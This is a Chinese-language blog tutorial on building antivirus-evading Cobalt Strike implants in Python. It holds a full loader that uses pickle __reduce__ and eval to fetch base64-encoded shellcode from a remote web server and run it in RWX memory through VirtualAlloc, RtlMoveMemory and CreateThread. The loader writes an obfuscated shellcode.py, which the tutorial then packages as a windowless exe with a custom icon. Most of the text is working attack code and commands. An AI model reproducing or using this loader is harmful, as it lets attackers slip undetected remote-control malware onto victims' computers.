 ```yaml
---
title: 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)
tags:
  - 免杀
---
```

### 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)

<strong>PS：来自moonsec师傅的分享</strong>

#### 0x01 环境配置

Win10 x64

Win7  x64

Python 2.7.18

Pyinstaller3.4

CS4.0

<strong> pip install pyinstaller==3.4 -i https://pypi.doubanio.com/simple/ </strong>

|---------------------------------------------------------------------------------------|

#### [0x02 免杀原理]

利用反序列化加载器绕过杀软基于特征的免杀。利用编码绕过shellcode的查杀。可以将加密好的shellcode放在远程服务器上，再加载不同的shellcode，进行扩展。

#### 0x03 制作加密shellcode

利用cs获取shellcode

![](https://fifteenblackslime.github.io/_posts/media/e0aa28720b9c4622e4d0a6ca71e13fb4.png)

此处选择python语言，以及使用x64payload，否则执行python文件时会中断。

![](https://fifteenblackslime.github.io/_posts/media/a398c4e7bf777025737ed5a996feec68.png)

此处生成payload为：

![](https://fifteenblackslime.github.io/_posts/media/8310ab75b4e0a155e8b54989c05e9269.png)

使用任意方式进行加密，此处采用base64进行。

用生成payload替换buf

<strong> import base64,urllib2 <br> buf = "shellcode" <br> html = base64.b64encode(buf) print html </strong>


|---------------------------------------------------------------------------------------|


将使用base64加密后的payload保存为txt文件，然后放在可访问web目录下。

![](https://fifteenblackslime.github.io/_posts/media/38fa0ebdce2832091cde822472d890fa.png)

使用如下脚本测试是否能够获取到解密后的payload

<strong>import base64,urllib2 <br> html = urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64') print html </strong>

此处看到ip表示解密未出现问题。

![](https://fifteenblackslime.github.io/_posts/media/c20169b6d62cf1444bbeb9d0da605c74.png)

#### 0x04 使用加载器加载payload

使用如下加载器尝试加载执行：<br>
import ctypes,cPickle,base64,urllib2<br>
class ptr(object):<br>

    def __reduce__(self):
        return (eval, ("urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64')",))
class buf(object):<br>

    def __init__(self,shellcode):
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode),0x1000,0x40)",))

class windll(object):

    def __init__(self,rwxpage,shellcode):
        self.rwxpage = rwxpage
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.RtlMoveMemory(rwxpage,ctypes.create_string_buffer(shellcode),len(shellcode))",))

class ht(object):

    def __init__(self,rwxpage):
        self.rwxpage = rwxpage

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.CreateThread(0,0,rwxpage,0,0,0)",))

class run(object):
    def __init__(self,handle):
        self.handle = handle

    def __reduce__(self):
        return (eval,("ctypes.windll.kernel32.WaitForSingleObject(handle,-1)",))

if __name__ == '__main__':

    raw_shellcode = ptr()
    ser_shellcode = cPickle.dumps(raw_shellcode)
    emb32_shellcode = base64.b32encode(ser_shellcode)
    shellcode = cPickle.loads(base64.b32decode(emb32_shellcode))

    raw_vir = buf(shellcode)
    ser_vir = cPickle.dumps(raw_vir)
    emb32_vir = base64.b32encode(ser_vir)
    rwxpage = cPickle.loads(base64.b32decode(emb32_vir))

    raw_rtl = windll(rwxpage,shellcode)
    ser_rtl = cPickle.dumps(raw_rtl)
    emb32_rtl = base64.b32encode(ser_rtl)

    raw_handle = ht(rwxpage)
    ser_handle = cPickle.dumps(raw_handle)
    emb32_handle = base64.b32encode(ser_handle)
    handle = cPickle.loads(base64.b32decode(emb32_handle))

    raw_run = run(handle)
    ser_run = cPickle.dumps(raw_run)
    emb32_run = base64.b32encode(ser_run)

    output = '''import ctypes,cPickle,base64,urllib2

e_shellcode = "{}"
shellcode = cPickle.loads(base64.b32decode(e_shellcode))

e_rwxpage="{}"
rwxpage = cPickle.loads(base64.b32decode(e_rwxpage))

e_code = "{}"
cPickle.loads(base64.b32decode(e_code))

e_handle = "{}"
handle = cPickle.loads(base64.b32decode(e_handle))

e_run = "{}"
cPickle.loads(base64.b32decode(e_run))'''.format(emb32_shellcode,emb32_vir,emb32_rtl,emb32_handle,emb32_run)

    with open('shellcode.py','w') as f:
        f.write(output)
        f.close() 

|---------------------------------------------------------------------------------------|

执行py文件后，会在该文件目录下生成shellcode.py，使用python执行后，查看CS是否上线：

![](https://fifteenblackslime.github.io/_posts/media/5aa8c2c6a950c1a4275d484eff957f3e.png)

如成功上线，使用pyinstaller生成exe可执行文件。

#### 0x05 pyinstaller生成exe文件

pyinstaller生成指定图标无命令行的exe文件

<strong> pyinstaller.exe –noconsole –onefile shellcode.py -i 128.ico -n shellcode </strong>



![](https://fifteenblackslime.github.io/_posts/media/bf36cb2d74e7d10cf0cd41661f2deadc.png)

生成默认目录为pyinstaller.exe所在目录中的dist目录下

![](https://fifteenblackslime.github.io/_posts/media/67faca8a79d2c4a479fb3d551ca7fd57.png)
